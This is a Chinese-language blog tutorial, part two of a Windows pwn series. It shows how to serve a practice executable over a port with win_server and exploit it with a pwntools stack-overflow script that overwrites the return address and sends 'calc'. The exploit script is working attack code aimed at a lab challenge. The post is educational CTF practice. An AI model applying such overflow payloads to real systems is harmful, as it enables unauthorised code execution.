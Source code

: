 win-pwn初探（二）

[![img](https://xz.aliyun.com/assets/pc/images/pic_default_secret.png) z1r0 发表于 江苏](https://xz.aliyun.com/users/122872) [技术文章](https://xz.aliyun.com/news?cate_id=9) 7845浏览 · 2022-11-26 19:33

> 上一节笔者学习了winpwn的用法，以及最基础的栈溢出利用用法和win pwn的保护机制的意思，这一节笔者学习了利用pwntools编写exp以及调试程序，也学习了ret2dll的利用手法

之前的文章链接：

- [win pwn初探（一）](https://xz.aliyun.com/t/11865)

# win-pwn初探（二）

## 利用pwntools编写exp

这里需要Ex师傅的一个工具：[Win Server](https://github.com/Ex-Origin/win_server)，这个就像搭建pwn题一样，把exe给映射到一个端口上

```
git clone https://github.com/Ex-Origin/win_server.git
```

如上git clone之后即可使用，用法：`.\win_server.exe ..\ch72\ch72.exe 1234`就可以把ch72.exe给映射到1234端口上，试着用nc连接一下，发现可以正常的执行程序

```
16:15:45 z1r0@z1r0deMacBook-Pro.local test nc 10.211.55.3 1234
a
A
```

pwntools如下安装

```
pip3 install pwntools
```

接着就可以正常使用pwntools了，需要注意的是目前只支持`remote`的用法

```
from pwn import *
from time import sleep

context.log_level = 'debug'

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

r = remote('10.211.55.3', 1234)

p1 = b'a' * (0x14 + 4)
p1 += p32(0x401000)
r.sendline(p1)
sleep(1)
r.sendline('calc')

r.interactive()
```

